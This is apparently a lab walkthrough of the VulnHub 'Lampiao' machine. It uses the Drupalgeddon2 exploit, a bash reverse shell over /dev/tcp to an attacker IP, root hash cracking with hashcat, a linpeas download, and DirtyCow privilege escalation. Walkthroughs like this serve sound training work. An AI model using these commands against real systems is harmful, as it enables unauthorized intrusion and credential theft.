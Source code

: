 # Lampiao

| Name        | Lampiao                       |
| ----------- | ----------------------------- |
| Dificultad: | Easy                          |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

## Host
```shell
192.168.181.48
```

## Enumeration
### Nmap
```shell
nmap 192.168.181.48 -sV -sC -p- --min-rate=1000

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?

1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Lampi\xC3\xA3o
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)


sudo nmap 192.168.181.48 -p- --min-rate=1000 -sU
```

### Web Enumeration - Port 1898 - Drupal CMS
```shell
http://192.168.181.48:1898/robots.txt

# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```
#### Drupal Version
```shell
http://192.168.181.48:1898/CHANGELOG.txt

Drupal 7.54, 2017-02-01
```


## Foothold
### CVE-2018-7600 - Drupalggedon2
- https://github.com/pimps/CVE-2018-7600
```shell
python3 drupalgeddon2.py http://192.168.181.48:1898/
python3 drupalgeddon2.py http://192.168.181.48:1898/ -c whoami
```
![01-Lampiao](00-Assets/01-Lampiao.png)
#### Reverse Shell
```shell
python3 drupalgeddon2.py http://192.168.157.48:1898/ -c "bash -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1'"
```
#### Listener
```shell
nc -lnvp 4444
```
![01-Lampiao-1](00-Assets/01-Lampiao-1.png)


## Privilege Escalation
### Basic Enumeration
```shell
cat /etc/passwd
```

```shell
root:$6$blDsHpU9$1.jyQg4uduSokEQ9Jgvo.5WkyUW52zP1XPT/PaA54y4y1ozS0WwrYcYUjfLZkBxx85gU2ROt5OpnoR5bDnbJX1:0:0:root:/root:/bin/bash
```

```shell
sudo hashcat -m 1800 root_hash /usr/share/wordlists/rockyou.txt --force
```
- While the password is been cracked we can try another approach

```shell
find / -perm -u=s -type f 2>/dev/null

find / -writable -type f 2>/dev/null | grep -v "/proc/" | grep -v "/sys/"

find / -writable -type d 2>/dev/null
/var/lib/php5
```

```shell
ls -lah /etc/cron*


/etc/cron.d:
-rw-r--r--  1 root root  510 Jul 28  2016 php5
```
### Automatic Enumeration - Linpeas.sh
```shell
cd /tmp

wget http://192.168.45.184:8000/linpeas.sh

chmod +x linpeas.sh

linpeas.sh
```

```shell
Linux version 4.4.0-31-generic ...
```
![01-Lampiao-2](00-Assets/01-Lampiao-2.png)

### Kernel Vulnerabilities
- From the [#Automatic Enumeration - Linpeas.sh](#Automatic%20Enumeration%20-%20Linpeas.sh) looks like this is an old kernel and may be outdated, then we can try some of the "highly probable" exploits from the exploit suggester module in Linpeas:
![01-Lampiao-3](00-Assets/01-Lampiao-3.png)
- Let's try DirtyCow
#### DirtyCow - CVE-2016-5195 - Kernel Exploit
- https://www.exploit-db.com/exploits/40847
```shell
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil

./dcow -s
```
![01-Lampiao-4](00-Assets/01-Lampiao-4.png)


# Flags
```shell
/home/tiago/local.txt
/root/proof.txt
```

